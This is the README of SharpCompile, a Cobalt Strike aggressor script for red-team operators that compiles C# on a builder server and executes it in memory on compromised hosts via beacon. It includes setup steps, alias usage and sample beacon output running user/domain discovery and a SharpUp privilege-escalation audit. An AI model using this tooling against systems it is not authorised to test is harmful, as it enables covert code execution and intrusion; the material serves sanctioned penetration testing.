


:warning: *NOTE: This tool is no longer under active maintenance.*


# SharpCompile

SharpCompile is an aggressor script for Cobalt Strike which allows you to compile and execute C# in realtime. This is a more slick approach than manually compiling an .NET assembly and loading it into Cobalt Strike. The project aims to make it easier to move away from adhoc PowerShell execution instead creating a temporary assembly and executing using beacon's 'execute-assembly' in seconds.

## Usage

Run server component elevated on a Windows machine (Your builder box) to listen on 0.0.0.0. This web server is intended to only be visible to operator systems (running the Cobalt Strike client) so is unauthenticated. Firewall this off and take advantage of SSL by providing 'cert.cer' alongside the server binary.

```
SharpCompileServer.exe [Optional: Full CSC Path (Default: C:\Windows\Microsoft.NET\Framework\v2.0.50727\csc.exe)] [Optional: Port (Default: 80 or 443 if 'cert.cer' present)]
```

Your Cobalt Strike client then tasks the server component to build an assembly when required. This simply requires 'curl' by default so should work out the box on OS X and Linux. You will likely need to tweak the .cna to make it work on Windows calling a 'curl.exe' etc.

Modify the config section at the top of 'SharpCompile.cna' and load into Cobalt Strike. This exposes SharpCompile in the following ways:

*sharp-exec alias:*

```
beacon> sharp-exec Console.WriteLine(String.Format("Username: {0}\nDomain: {1}",Environment.UserName, Environment.UserDomainName));
[*] Tasked beacon to run .NET program: sharpcompile_38692.exe
[+] host called home, sent: 109611 bytes
[+] received output:
Username: Administrator
Domain: EVILCORP
```

*sharp-fexec alias:*

```
beacon> sharp-fexec /root/Tools/SharpCompile/SampleScripts/HelloWorld.cs "Sharp Compile"
[*] Tasked beacon to run .NET program: sharpcompile_51705.exe "Sharp Compile"
[+] host called home, sent: 109129 bytes
[+] received output:
Hello Sharp Compile!
```

*SharpCompile beacon menu:*

Right hand click a beacon:



Select the .cs you want to compile and execute:



In the below example we compile [SharpUp](https://github.com/GhostPack/SharpUp) and run it with an 'audit' argument:

```
[*] Tasked beacon to run .NET program: sharpcompile_98542.exe audit
[+] host called home, sent: 133173 bytes
[+] received output:

=== SharpUp: Running Privilege Escalation Checks ===

[*] Already in high integrity, no need to privesc!

[*] Audit mode: running all checks anyway.


=== Modifiable Services ===

---snip---
```

Note: The version of .NET Framework csc.exe you specify for server component matters when compiling code that needs a specific version. This process does not give any feedback on compilation, so if code does not compile you will likely get an error in Cobalt Strike saying invalid assembly.

## Authors
* **David Middlehurst** - Twitter- [@dtmsecurity](https://twitter.com/dtmsecurity)
* **Arris Huijgen** - Twitter- [@_bitsadmin](https://twitter.com/_bitsadmin)

## License

SharpCompile

Some elements created by David Middlehurst, SpiderLabs as described above 
(Please refer to resepective licenses where other open-source projects are utilised).

Copyright (C) 2018 Trustwave Holdings, Inc.
 
This program is free software: you can redistribute it and/or modify
it under the terms of the GNU General Public License as published by
the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

This program is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU General Public License for more details.

## Acknowledgments
* [uhttpsharp](https://github.com/bonesoul/uhttpsharp) - C# web server package.
* Ryan Cobb [@cobbr_io](https://twitter.com/cobbr_io) - Chatted about this concept.
* [SharpCradle](https://github.com/anthemtotheego/SharpCradle) - This is an awesome project worth checking out, slightly different concept for a slightly different use case, non-Cobalt Strike specific.


